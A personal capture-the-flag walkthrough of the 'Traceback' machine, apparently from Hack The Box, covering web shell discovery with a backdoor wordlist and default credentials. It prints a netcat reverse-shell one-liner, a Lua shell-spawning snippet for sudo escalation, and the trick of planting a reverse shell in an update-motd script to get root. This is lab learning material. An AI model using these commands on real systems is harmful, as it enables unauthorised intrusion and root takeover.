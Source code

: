 # <span style="color:#FFFF66">Machine #17 Traceback</span>  


## <span style="color: #FFFF66">Notes During Working on the Machine 🧐🤓   

* Wappalyzer is giving way off results  
<img src="wappalyzer.png"> 
* The fast nmap gave me only `http` and `ssh`.
* The long nmap doesn't want to ever finish.
* If I could tell what technology was used to program the backend maybe this could help with finding the proper shell.
* But still it's not clear to me how to find the shell and what the hell is it's name and what is this weird comment about web shells.
* Also, something interesting is that the comment said "web shells" as a plural and not singular.
* It occured to me that Traceback is a kind of error. It seems like it's an error in Python.
* One of the allowed methods is POST this has to give me access to something.
* I also found a code that uses POST requests to use a webshell.
* I found this json object that seems to be sent with the request.
 
  ```json
  {
    "canary":"m069z1wh",
    "enabled":false,
    "postmessage":false,
    "spoofOrigin":false,
    "injectCanary":false,
    "filterStack":false,
    "fireEvents":false,
    "guessStrings":false,
    "preventRedirection":false,
    "injectIntoSources":false,
    "disabledSources":[]
    }
  ```  

* From my research the Canary thing might be a honey pot, which leads me to think that the website isn't really compromised and that the website's owners have put this message to lure hackers into thinking that the website is owned.  

* The Canary thing turned out to be something from burpsuite shit when I opened firefox there was no trace of it. I've been chasing ghosts all along.  
* Maybe I can look more into uploading files.

* The latest stuff I found is an image. I thought maybe the web shell could be hidden in the image but the image seems to be intact and there's nothing wrong with it. It seems like it's just a normal jpg.
* I even ran it on `exiftool` and didn't get anything.  
* I found something `/smevk.php`. Instead of bruteforcing with `gobuster1 using the usual wordlists I used a list called "backdoor_list.txt" which is specifically to search for backdoors in web apps and I found one DAMN RIGHT!
* The password is freaking admin:admin :o

  ```cmd
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
  ```  

* I got webadmin through the other hacker's webshell and then I got sysadmin through a bind shell using the sudo lua code I used the following code  

* I just have getting the root left.
  ```lua
  #\!/usr/local/bin/lua
  os.execute("/bin/bash");
  ```

  ```
  /etc/update-motd.d/50-motd-news
  /etc/update-motd.d/10-help-text
  /etc/update-motd.d/91-release-upgrade
  /etc/update-motd.d/00-header
  /etc/update-motd.d/80-esm
  ```  

  ```cmd
  ssh -i id_ed25519 sysadmin@10.10.14.8
  ```

* I finally copied a rev shell into the "header" file because it was the only file that had proof that it's code is being executed.
<br/><br/>



## <span style="color: #FFFF66">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color: #FFFF66">Where I Got Stuck?😡😧  

* I kept using the wrong wordlist to bruteforce the directories using `gobuster`.
* Turns out there is a wordlist in SecLists exactly to look for web shells and I found some login page hidden by the hacker.

<br/><br/>



## <span style="color: #FFFF66">What Did I learn from this Machine?👀  

* General info on Webshells  
  <blockquote>
  Threat actors first penetrate a system or network and then install a web shell. From this point onwards, they use it as a permanent backdoor into the targeted web applications and any connected systems.
  </blockquote>

<br/><br/>



## <span style="color: #FFFF66">Writeups ✍🏽📓   

### ippsec  
* There are other backdoor wordlists to use in SecList's `Web-Content` called "CommonBackdoors".
* The comment turned out to be a line from a github that has a bunch of webshells(Some of the best webshells...etc).

<br/><br/>




<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->